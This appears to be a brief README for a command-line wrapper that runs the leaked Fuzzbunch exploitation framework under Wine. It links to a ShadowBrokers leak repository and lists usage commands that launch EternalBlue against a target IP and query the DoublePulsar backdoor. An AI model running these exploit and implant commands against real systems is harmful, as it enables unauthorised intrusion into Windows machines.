 # fuzzbunch_wrapper
Fuzzbunch Cli->Wine->fb.py wrapper

#Dependencies:
regular fuzzbunch dependencies installed in wine
install fuzzbunch this way: https://github.com/knightmare2600/ShadowBrokers/tree/master/Lost_In_Translation

Set Wine's PATH environment variable to c:\[fuzzbunch-path]\windows\lib\x86-Windows

#Usage:

./fbcli.py module|list

./fbcli.py eternalblue --targetip 1.1.1.1

./fbcli.py doublepulsar --help

./fbcli.py doublepulsar --targetip 1.1.1.1 --function ping
